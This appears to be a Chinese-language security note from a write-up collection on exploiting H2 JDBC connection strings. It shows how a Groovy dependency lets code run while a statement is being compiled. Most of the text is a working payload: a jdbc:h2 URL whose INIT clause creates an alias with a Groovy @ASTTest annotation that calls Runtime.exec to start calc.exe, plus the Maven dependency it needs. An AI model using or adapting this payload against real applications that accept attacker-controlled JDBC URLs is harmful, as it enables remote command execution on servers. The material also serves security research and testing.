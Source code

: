 ![image-20230810231831479](./../.gitbook/assets/image-20230810231831479.png)

若目标环境有`Groovy`依赖，可以使用元编程的技巧来命令执行，在编译`Groovy`语句而非执行时就执行攻击者的代码。

添加`groovy-sql`依赖

```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-sql</artifactId>
    <version>3.0.8</version>
</dependency>
```

```sql
jdbc:h2:mem:test;init=CREATE ALIAS shell2 AS
$$@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec("cmd.exe /c calc.exe")
})
def x$$
```
